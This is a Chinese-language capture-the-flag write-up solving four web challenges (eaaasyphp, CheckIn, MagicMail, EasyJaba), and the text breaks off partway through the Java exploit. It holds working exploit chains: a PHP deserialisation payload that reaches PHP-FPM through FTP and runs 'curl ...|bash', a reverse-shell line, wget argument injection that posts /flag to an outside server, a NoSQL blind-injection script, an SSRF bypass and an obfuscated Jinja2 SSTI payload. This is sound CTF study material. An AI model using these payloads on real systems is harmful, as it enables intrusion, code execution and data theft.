# eaaasyphp

题目源码

```
<?php

class Check {
    public static $str1 = false;
    public static $str2 = false;
}


class Esle {
    public function __wakeup()
    {
        Check::$str1 = true;
    }
}


class Hint {

    public function __wakeup(){
        $this->hint = "no hint";
    }

    public function __destruct(){
        if(!$this->hint){
            $this->hint = "phpinfo";
            ($this->hint)();
        }  
    }
}


class Bunny {

    public function __toString()
    {
        if (Check::$str2) {
            if(!$this->data){
                $this->data = $_REQUEST['data'];
            }
            file_put_contents($this->filename, $this->data);
        } else {
            throw new Error("Error");
        }
    }
}

class Welcome {
    public function __invoke()
    {
        Check::$str2 = true;
        return "Welcome" . $this->username;
    }
}

class Bypass {

    public function __destruct()
    {
        if (Check::$str1) {
            ($this->str4)();
        } else {
            throw new Error("Error");
        }
    }
}

if (isset($_GET['code'])) {
    unserialize($_GET['code']);
} else {
    highlight_file(__FILE__);
}
```

直接拿exp打试试

```
<?php

class Check
{
    public static $str1 = false;
    public static $str2 = false;
}


class Esle
{
    public function __wakeup()
    {
        Check::$str1 = true;
    }
}

class Bunny
{
    public function __construct()
    {
        $this->filename = '1.php';
        $this->data = '<?php phpinfo();?>';
    }
}

class Welcome
{
    public function __construct()
    {
        $this->username = new Bunny();
    }
}

class Bypass
{
    public function __construct()
    {
        $this->str4 = new Welcome();
    }
}
$a = new Esle();
$b = new Bypass();
echo urlencode(serialize(array($a, $b)));
```



停止运作了,无法写入文件

里面有`($this->str4)();`去调用phpinfo看看

把exp里面的Bypass类改一下

```
class Bypass
{
    public function __construct()
    {
        $this->str4 = 'phpinfo';
    }
}
```



这里的Server API是FPM/FastCGI

应该会去打内网

有file_get_contents函数,可以利用ftp去打fpm

在vps上开一个恶意的ftp服务

```
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

利用gopherus

```
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的php文件
curl http://47.93.248.221|bash  # 这里输入的是要执行的命令
```



exp

```
<?php

class Check
{
    public static $str1 = false;
    public static $str2 = false;
}


class Esle
{
    public function __wakeup()
    {
        Check::$str1 = true;
    }
}

class Bunny
{
    public function __construct()
    {
        $this->filename = 'ftp://aaa@47.93.248.221:23/123';
    }
}

class Welcome
{
    public function __construct()
    {
        $this->username = new Bunny();
    }
}

class Bypass
{
    public function __construct()
    {
        $this->a = new Esle();
        $this->str4 = new Welcome();
    }
}
$a = new Esle();
$b = new Bypass();
echo urlencode(serialize(array($a, $b)));
```

payload

```
?code=a%3A2%3A%7Bi%3A0%3BO%3A4%3A%22Esle%22%3A0%3A%7B%7Di%3A1%3BO%3A6%3A%22Bypass%22%3A2%3A%7Bs%3A1%3A%22a%22%3BO%3A4%3A%22Esle%22%3A0%3A%7B%7Ds%3A4%3A%22str4%22%3BO%3A7%3A%22Welcome%22%3A1%3A%7Bs%3A8%3A%22username%22%3BO%3A5%3A%22Bunny%22%3A1%3A%7Bs%3A8%3A%22filename%22%3Bs%3A30%3A%22ftp%3A%2F%2Faaa%4047.93.248.221%3A23%2F123%22%3B%7D%7D%7D%7D&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH82%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00R%04%00%3C%3Fphp%20system%28%27curl%20http%3A//47.93.248.221%7Cbash%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

拿到shell



不知道为什么这里我开始用`bash -c "bash -i >& /dev/tcp/47.93.248.221/2333 0>&1"`一直没弹起,搞了好久,结果用curl弹上去了

# CheckIn

题目源码

```
package main

import (
    "fmt"
    "io"
    "time"
    "bytes"
    "regexp"
    "os/exec"
    "plugin"
    "gopkg.in/mgo.v2"
    "gopkg.in/mgo.v2/bson"
    "github.com/gin-contrib/sessions"
    "github.com/gin-gonic/gin"
    "github.com/gin-contrib/sessions/cookie"
    "github.com/gin-contrib/multitemplate"
    "net/http"
)


type Url struct {
    Url string `json:"url" binding:"required"`
}

type User struct {
    Username string
    Password string
}

const MOGODB_URI = "127.0.0.1:27017"


func MiddleWare() gin.HandlerFunc {
    return func(c *gin.Context) {
        session := sessions.Default(c)

        if session.Get("username") == nil || session.Get("password") != os.Getenv("ADMIN_PASS") {
            c.Header("Content-Type", "text/html; charset=utf-8")
            c.String(200, "<script>alert('You are not admin!');window.location.href='/login'</script>")
            return
        }

        c.Next()
    }
}


func loginController(c *gin.Context) {

    session := sessions.Default(c)
    if session.Get("username") != nil {
        c.Redirect(http.StatusFound, "/home")
        return
    }
    
    username := c.PostForm("username")
    password := c.PostForm("password")

    if username == "" || password == "" {
        c.Header("Content-Type", "text/html; charset=utf-8")
        c.String(200, "<script>alert('The username or password is empty');window.location.href='/login'</script>")
        return
    }

    conn, err := mgo.Dial(MOGODB_URI)
    if err != nil {
        panic(err)
    }

    defer conn.Close()
    conn.SetMode(mgo.Monotonic, true)

    db_table := conn.DB("ctf").C("users")
    result := User{}
    err = db_table.Find(bson.M{"$where":"function() {if(this.username == '"+username+"' && this.password == '"+password+"') {return true;}}"}).One(&result)

    if result.Username == "" {
        c.Header("Content-Type", "text/html; charset=utf-8")
        c.String(200, "<script>alert('Login Failed!');window.location.href='/login'</script>")
        return
    }

    if username == result.Username || password == result.Password {
        session.Set("username", username)
        session.Set("password", password)
        session.Save()
        c.Redirect(http.StatusFound, "/home")
        return
    } else {
        c.Header("Content-Type", "text/html; charset=utf-8")
        c.String(200, "<script>alert('Pretend you logged in successfully');window.location.href='/login'</script>")
        return
    }
}


func proxyController(c *gin.Context) {
    
    var url Url
    if err := c.ShouldBindJSON(&url); err != nil {
        c.JSON(500, gin.H{"msg": err})
        return
    }
    
    re := regexp.MustCompile("127.0.0.1|0.0.0.0|06433|0x|0177|localhost|ffff")
    if re.MatchString(url.Url) {
        c.JSON(403, gin.H{"msg": "Url Forbidden"})
        return
    }
    
    client := &http.Client{Timeout: 2 * time.Second}

    resp, err := client.Get(url.Url)
    if err != nil {
        c.JSON(http.StatusInternalServerError, gin.H{"error": err.Error()})
        return
    }
    defer resp.Body.Close()
    var buffer [512]byte
    result := bytes.NewBuffer(nil)
    for {
        n, err := resp.Body.Read(buffer[0:])
        result.Write(buffer[0:n])
        if err != nil && err == io.EOF {

            break
        } else if err != nil {
            c.JSON(http.StatusInternalServerError, gin.H{"error": err.Error()})
            return
        }
    }
    c.JSON(http.StatusOK, gin.H{"data": result.String()})
}


func getController(c *gin.Context) {


    cmd := exec.Command("/bin/wget", c.QueryArray("argv")[1:]...)
    err := cmd.Run()
    if err != nil {
        fmt.Println("error: ", err)
    }
    
    c.String(http.StatusOK, "Nothing")
}


func createMyRender() multitemplate.Renderer {
    r := multitemplate.NewRenderer()
    r.AddFromFiles("login", "templates/layouts/base.tmpl", "templates/layouts/login.tmpl")
    r.AddFromFiles("home", "templates/layouts/home.tmpl", "templates/layouts/home.tmpl")
    return r
}


func main() {
    router := gin.Default()
    router.Static("/static", "./static")

    p, err := plugin.Open("sess_init.so")
    if err != nil {
        panic(err)
    }

    f, err := p.Lookup("Sessinit")
    if err != nil {
        panic(err)
    }
    key := f.(func() string)()

    storage := cookie.NewStore([]byte(key))
    router.Use(sessions.Sessions("mysession", storage))
    router.HTMLRender = createMyRender()
    router.MaxMultipartMemory = 8 << 20

    router.GET("/", func(c *gin.Context) {
        session := sessions.Default(c)
        if session.Get("username") != nil {
            c.Redirect(http.StatusFound, "/home")  
            return
        } else {
            c.Redirect(http.StatusFound, "/login")  
            return
        }
    })

    router.GET("/login", func(c *gin.Context) {
        session := sessions.Default(c)
        if session.Get("username") != nil {
            c.Redirect(http.StatusFound, "/home")  
            return
        }
        c.HTML(200, "login", gin.H{
            "title": "CheckIn",
        })
    })

    router.GET("/home", MiddleWare(), func(c *gin.Context) {
        c.HTML(200, "home", gin.H{
            "title": "CheckIn",
        })
    })

    router.POST("/proxy", MiddleWare(), proxyController)
    router.GET("/wget", getController)
    router.POST("/login", loginController)

    _ = router.Run("0.0.0.0:8080") // listen and serve on 0.0.0.0:8080
}
```

## 方法一

wget路由

```
func getController(c *gin.Context) {

    cmd := exec.Command("/bin/wget", c.QueryArray("argv")[1:]...)
    err := cmd.Run()
    if err != nil {
        fmt.Println("error: ", err)
    }
    
    c.String(http.StatusOK, "Nothing")
}
```

调用了wget命令，可以直接用wget注入将flag外带到vps

payload

```
http://5c82bd31-48a5-4d46-b13d-64c2c5f07cff.node4.buuoj.cn:81/wget?argv=1&argv=--post-file&argv=/flag&argv=47.93.248.221:2333
```



## 方法二(预期解)

不过在官方给的wp中并不是这样做的,他是利用proxy路由中的ssrf对调用wget路由里面的wget发送请求

但是当我访问proxy路由的时候需要去登陆,官方给的wp在登陆界面存在nosql注入

$where操作符的盲注脚本

```
import requests

url = "http://a5589098-db0e-4af2-ae09-dedacf097f25.node4.buuoj.cn:81/login"

headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

strings = "1234567890abcdefghijklmnopqrstuvwxyz"

res = ""
for i in range(len(res) + 1, 40):
    if len(res) == i - 1:
        for c in strings:
            data = {
                "username": "admin'&&this.password.substr(-" + str(i) + ")=='" + str(c + res) + "') {return true;}})//",
                "password": "123456"
            }
            r = requests.post(url=url, headers=headers, data=data)
            if "Pretend" in r.text:
                res = c + res
                print("[+] " + res)
                break
    else:
        print("[-] Failed")
        break
```

这个脚本很离谱,有时候跑不完,而且我用Failed not in r.text的时候后面跑出来会乱掉

最好用二分法

可能是因为网站请求时的时间的原因,跑了10多次终于跑出来了



```
54a83850073b0f4c6862d5a1d48ea84f
```

登陆成功


接下来就是在/proxy路由里面进行ssrf了

不过里面对ip进行了限制

```
re := regexp.MustCompile("127.0.0.1|0.0.0.0|06433|0x|0177|localhost|ffff")
    if re.MatchString(url.Url) {
        c.JSON(403, gin.H{"msg": "Url Forbidden"})
        return
    }
```

可以访问使用`[::]`绕过对127.0.0.1的限制然后访问内网,也可以用0.0.0.0

payload1

```
POST /proxy

{"url":"http://[::]:8080/wget?argv=-e+http_proxy=http://47.93.248.221:2333&argv=--method=POST&argv=--body-file=/flag&argv=http://47.93.248.221:2333"}
```

payload2

```
POST /proxy

{"url":"http://0.0.0.0:8080/wget?argv=1&argv=--post-file&argv=/flag&argv=47.93.248.221:2333"}
```



这里的enctype一定要用json



# MagicMail

进入题目



要我设置我的SMTP服务的host和port,不然进不到home界面

在vps上开一个SMTP服务

```
python3 -m smtpd -c DebuggingServer -n 0.0.0.0:2333
```

然后设置host为vps的ip,port为2333

进入/home路由的发邮件界面



先随便发封邮件，在我vps上收到的邮件信息



测试ssti



拦截到的数据



前面都没有ssti,不过text的值被base64加密了

解码一下



进行了10*10=100的运算,存在ssti

不过题目过滤了很多字符

```
'class', 'mro', 'base', 'request', 'session', '+', 'add', 'chr', 'u', '.', 'ord', 'redirect', 'url_for', 'config', 'builtins', 'get_flashed_messages', 'get', 'subclasses', 'form', 'cookies', 'headers', '[', ']', '\'', ' ', '_'
```

过滤了`'.'`可以用attr绕过,关键字用16进制,如果没过滤u,就可以用Unicode绕

payload

```
{{
()|attr("\x5f\x5fc\x6cass\x5f\x5f")|attr("\x5f\x5fmr\x6f\x5f\x5f")|attr("\x5f\x5fge\x74item\x5f\x5f")(1)|attr("\x5f\x5f\x73\x75\x62cl\x61ss\x65s\x5f\x5f")()|attr("\x5f\x5fge\x74item\x5f\x5f")(134)|attr("\x5f\x5finit\x5f\x5f")|attr("\x5f\x5fglob\x61ls\x5f\x5f")|attr("\x5f\x5fge\x74item\x5f\x5f")("\x5f\x5fb\x75\x69ltins\x5f\x5f")|attr("\x5f\x5fge\x74item\x5f\x5f")("ev\x61l")("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x22\x6f\x73\x22\x29\x2e\x70\x6f\x70\x65\x6e\x28\x22cat\x20/flag\x22\x29\x2e\x72\x65\x61\x64\x28\x29")
}}
```



解码拿到flag



# EasyJaba

看源码,BackDoor路由有反序列化点



有黑名单,ban了Hashmap类和BadAttributeValueExpException类

反编译后在pom.xml中看到rome组件



版本是1.0的,在网上视察一圈,有反序列化的RCE

这里的Hashmap是为了触发toString的,hashset和hashtable可以来绕过直接

exp

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;

import java.io.ObjectOutputStream;

import java.lang.reflect.Field;

import java.util.Base64;

public class Test {

    public static class StaticBlock { }
    public static void main(String[] args) throws Exception {
